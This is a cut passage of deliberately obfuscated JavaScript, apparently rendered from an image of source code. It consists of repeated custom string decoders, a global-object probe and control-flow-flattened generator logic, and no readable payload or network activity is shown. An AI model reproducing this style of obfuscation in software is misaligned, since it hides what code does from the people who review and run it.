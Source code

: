 urRQZ0R=\"wUPWgDtkKd!7`?Rr[ovfN\\\"i1H}(5CXB_e>xhG*Msq%EF|&by]49Y30L8:#.IO/2<$Aca,{Z6+ljun=SmJTzQ^@p~)V;\",ZQoSUK,G9xaQU,Bw4iIv_,K587oj,dRF1Xp,QjB27O,Uv987nQ;HFxDDU(ZQoSUK=\"\"+(Vnhvoo||\"\"),G9xaQU=ZQoSUK.length,Bw4iIv_=[],K587oj=PMkNEPX[0x3],dRF1Xp=PMkNEPX[0x3],QjB27O=-PMkNEPX[0x1]);for(Uv987nQ=PMkNEPX[0x3];Uv987nQ<G9xaQU;Uv987nQ++){var M3YH7i8=urRQZ0R.indexOf(ZQoSUK[Uv987nQ]);if(M3YH7i8===-PMkNEPX[0x1])continue;if(QjB27O<PMkNEPX[0x3]){QjB27O=M3YH7i8}else{HFxDDU(QjB27O+=M3YH7i8*PMkNEPX[0x15],K587oj|=QjB27O<<dRF1Xp,dRF1Xp+=(QjB27O&PMkNEPX[0x16])>PMkNEPX[0x17]?PMkNEPX[0x18]:PMkNEPX[0x19]);do{HFxDDU(Bw4iIv_.push(K587oj&PMkNEPX[0xd]),K587oj>>=PMkNEPX[0xc],dRF1Xp-=PMkNEPX[0xc])}while(dRF1Xp>PMkNEPX[0x12]);QjB27O=-PMkNEPX[0x1]}}if(QjB27O>-PMkNEPX[0x1]){Bw4iIv_.push((K587oj|QjB27O<<dRF1Xp)&PMkNEPX[0xd])}return XI_m57(Bw4iIv_)}function Bw4iIv_(Vnhvoo){if(typeof _BAQWF8[Vnhvoo]===PMkNEPX[0xe]){return _BAQWF8[Vnhvoo]=G9xaQU(MiG_WRP[Vnhvoo])}return _BAQWF8[Vnhvoo]}HFxDDU(urRQZ0R=Object,ZQoSUK[Bw4iIv_(0x6d)](\"\"[Bw4iIv_(0x6e)+Bw4iIv_(0x6f)][Bw4iIv_(0x70)][Bw4iIv_(0x71)]))}catch(K587oj){}QxV2x6:for(mNfGC37=PMkNEPX[0x3];mNfGC37<Vnhvoo[pt92wNi(0x72)];mNfGC37++)try{var dRF1Xp;function QjB27O(Vnhvoo){var urRQZ0R=\"Au3~:vX]*eMP?<W%F&|,$ZbogQ=V!{0`Nti6wh(n}HKfacIk8SDC7L2;B#@qxdy1[>.T_YR9^)s+\\\"OzrUGElj4J/pm5\",ZQoSUK,G9xaQU,Bw4iIv_,K587oj,dRF1Xp,QjB27O,Uv987nQ;HFxDDU(ZQoSUK=\"\"+(Vnhvoo||\"\"),G9xaQU=ZQoSUK.length,Bw4iIv_=[],K587oj=PMkNEPX[0x3],dRF1Xp=PMkNEPX[0x3],QjB27O=-PMkNEPX[0x1]);for(Uv987nQ=PMkNEPX[0x3];Uv987nQ<G9xaQU;Uv987nQ++){var M3YH7i8=urRQZ0R.indexOf(ZQoSUK[Uv987nQ]);if(M3YH7i8===-PMkNEPX[0x1])continue;if(QjB27O<PMkNEPX[0x3]){QjB27O=M3YH7i8}else{HFxDDU(QjB27O+=M3YH7i8*PMkNEPX[0x15],K587oj|=QjB27O<<dRF1Xp,dRF1Xp+=(QjB27O&PMkNEPX[0x16])>PMkNEPX[0x17]?PMkNEPX[0x18]:PMkNEPX[0x19]);do{HFxDDU(Bw4iIv_.push(K587oj&PMkNEPX[0xd]),K587oj>>=PMkNEPX[0xc],dRF1Xp-=PMkNEPX[0xc])}while(dRF1Xp>PMkNEPX[0x12]);QjB27O=-PMkNEPX[0x1]}}if(QjB27O>-PMkNEPX[0x1]){Bw4iIv_.push((K587oj|QjB27O<<dRF1Xp)&PMkNEPX[0xd])}return XI_m57(Bw4iIv_)}function Uv987nQ(Vnhvoo){if(typeof _BAQWF8[Vnhvoo]===PMkNEPX[0xe]){return _BAQWF8[Vnhvoo]=QjB27O(MiG_WRP[Vnhvoo])}return _BAQWF8[Vnhvoo]}urRQZ0R=Vnhvoo[mNfGC37]();for(dRF1Xp=PMkNEPX[0x3];dRF1Xp<ZQoSUK[Uv987nQ(0x73)];dRF1Xp++){function M3YH7i8(Vnhvoo){var urRQZ0R=\"81O{X:!A\\\"0@GiH4qlmS;(C+ePRBapbf2d#9_u~Knzg)QT,D7trvFM[x>%Ej5&}o.`kVh*Z<yLc3sW6^UYJw]?$/=I|N\",ZQoSUK,G9xaQU,Bw4iIv_,K587oj,dRF1Xp,QjB27O,Uv987nQ;HFxDDU(ZQoSUK=\"\"+(Vnhvoo||\"\"),G9xaQU=ZQoSUK.length,Bw4iIv_=[],K587oj=PMkNEPX[0x3],dRF1Xp=PMkNEPX[0x3],QjB27O=-PMkNEPX[0x1]);for(Uv987nQ=PMkNEPX[0x3];Uv987nQ<G9xaQU;Uv987nQ++){var M3YH7i8=urRQZ0R.indexOf(ZQoSUK[Uv987nQ]);if(M3YH7i8===-PMkNEPX[0x1])continue;if(QjB27O<PMkNEPX[0x3]){QjB27O=M3YH7i8}else{HFxDDU(QjB27O+=M3YH7i8*PMkNEPX[0x15],K587oj|=QjB27O<<dRF1Xp,dRF1Xp+=(QjB27O&PMkNEPX[0x16])>PMkNEPX[0x17]?PMkNEPX[0x18]:PMkNEPX[0x19]);do{HFxDDU(Bw4iIv_.push(K587oj&PMkNEPX[0xd]),K587oj>>=PMkNEPX[0xc],dRF1Xp-=PMkNEPX[0xc])}while(dRF1Xp>PMkNEPX[0x12]);QjB27O=-PMkNEPX[0x1]}}if(QjB27O>-PMkNEPX[0x1]){Bw4iIv_.push((K587oj|QjB27O<<dRF1Xp)&PMkNEPX[0xd])}return XI_m57(Bw4iIv_)}function Keq8Tfm(Vnhvoo){if(typeof _BAQWF8[Vnhvoo]===PMkNEPX[0xe]){return _BAQWF8[Vnhvoo]=M3YH7i8(MiG_WRP[Vnhvoo])}return _BAQWF8[Vnhvoo]}if(typeof urRQZ0R[ZQoSUK[dRF1Xp]]===Keq8Tfm(0x74))continue QxV2x6}return urRQZ0R}catch(K587oj){}return urRQZ0R||this}function TmMJMC(...Vnhvoo){HFxDDU(Vnhvoo[PMkNEPX[0x0]]=PMkNEPX[0x1],ybls5gF(ZQoSUK),ybls5gF(urRQZ0R));function urRQZ0R(...Vnhvoo){var urRQZ0R,ZQoSUK;function*_BAQWF8(ZQoSUK,_BAQWF8,MiG_WRP,mNfGC37={Sgy4ot:{}}){while(ZQoSUK+_BAQWF8+MiG_WRP!==-0xf9)with(mNfGC37.OiSgtU9||mNfGC37)switch(ZQoSUK+_BAQWF8+MiG_WRP){case _BAQWF8- -0x1:case 0xf3:HFxDDU(Vnhvoo[-PMkNEPX[0x1f]].push((Vnhvoo[PMkNEPX[0x9]]|Vnhvoo[PMkNEPX[0x1d]]<<Vnhvoo[PMkNEPX[0x1e]])&PMkNEPX[0xd]),mNfGC37.OiSgtU9=mNfGC37.Sgy4ot,ZQoSUK+=-0x11e,_BAQWF8+=0x47,MiG_WRP+=0x20e);break;case mNfGC37.Sgy4ot.jH0pWG+0x99:HFxDDU(mNfGC37.Sgy4ot.jH0pWG=0x9a,mNfGC37.OiSgtU9=mNfGC37.sxv6Pq,ZQoSUK+=0x126,_BAQWF8+=-0x142,MiG_WRP+=0x88);break;case _BAQWF8- -0x98:case-0xee:HFxDDU(mNfGC37.OiSgtU9=mNfGC37.Sgy4ot,ZQoSUK+=-0xd4,_BAQWF8+=0x64,MiG_WRP+=-0xb3);break;case MiG_WRP-0x106:case 0xb:case-0x29:HFxDDU(Vnhvoo[-PMkNEPX[0x1f]].push((Vnhvoo[PMkNEPX[0x9]]|Vnhvoo[PMkNEPX[0x1d]]<<Vnhvoo[PMkNEPX[0x1e]])&PMkNEPX[0xd]),mNfGC37.OiSgtU9=mNfGC37.Sgy4ot,ZQoSUK+=0x167,_BAQWF8+=-0x50,MiG_WRP+=0x79);break;case ZQoSUK-0xe7:HFxDDU(Vnhvoo[-PMkNEPX[0x1f]].push((Vnhvoo[PMkNEPX[0x9]]|Vnhvoo[PMkNEPX[ZQoSUK+-0x147]]<<Vnhvoo[PMkNEPX[ZQoSUK+-0x146]])&PMkNEPX[0xd]),mNfGC37.OiSgtU9=mNfGC37.Sgy4ot,ZQoSUK+=-0x11e,_BAQWF8+=0x14,MiG_WRP+=0x149);break;case mNfGC37.Sgy4ot.jH0pWG+-0x4c:HFxDDU(mNfGC37.OiSgtU9=mNfGC37.EZyrf6,ZQoSUK+=-0x1,_BAQWF8+=-0x5a,MiG_WRP+=0x1ac);break;case 0x3:case-0x61:HFxDDU(mNfGC37.Sgy4ot.jH0pWG=0xd1,mNfGC37.OiSgtU9=mNfGC37.Sgy4ot,ZQoSUK+=-0x1a1,_BAQWF8+=0x64,MiG_WRP+=0xf2);break;case 0x83:case ZQoSUK-0x5f:HFxDDU(mNfGC37.OiSgtU9=mNfGC37.I5HwWV,ZQoSUK+=-0x18,_BAQWF8+=-0xb2,MiG_WRP+=0x88);break;case 0x76:case-0x17:case-0x75:HFxDDU(Vnhvoo[PMkNEPX[0x1a]]=\"\"+(Vnhvoo[PMkNEPX[_BAQWF8+0x15]]||\"\"),Vnhvoo[PMkNEPX[ZQoSUK+0xbf]]=Vnhvoo[PMkNEPX[0x1a]].length,Vnhvoo[-PMkNEPX[0x1f]]=[],mNfGC37.OiSgtU9=mNfGC37.Sgy4ot,_BAQWF8+=0x2d);break;case mNfGC37.Sgy4ot.jH0pWG+0x164:return urRQZ0R=!0x0,XI_m57(Vnhvoo[-PMkNEPX[0x1f]]);default:case-0x1f:HFxDDU(mNfGC37.OiSgtU9=mNfGC37.Sgy4ot,ZQoSUK+=0x83,_BAQWF8+=-0x8b,MiG_WRP+=-0xcd);break;case _BAQWF8!=-0x12&&_BAQWF8-0x63:HFxDDU(Vnhvoo[PMkNEPX[0x9]]=PMkNEPX[0x3],Vnhvoo[PMkNEPX[ZQoSUK+0xd8]]=PMkNEPX[_BAQWF8+-0x18],Vnhvoo[PMkNEPX[0x1d]]=-PMkNEPX[0x1]);for(Vnhvoo[PMkNEPX[ZQoSUK+0xc6]]=PMkNEPX[0x3];Vnhvoo[PMkNEPX[0xc]]<Vnhvoo[PMkNEPX[0x5]];Vnhvoo[PMkNEPX[0xc]]++){Vnhvoo[PMkNEPX[_BAQWF8+0x1]]=Vnhvoo[PMkNEPX[0x1b]].indexOf(Vnhvoo[PMkNEPX[_BAQWF8+-0x1]][Vnhvoo[PMkNEPX[_BAQWF8+-0xf]]]);if(Vnhvoo[PMkNEPX[0x1c]]===-PMkNEPX[0x1])continue;if(Vnhvoo[PMkNEPX[0x1d]]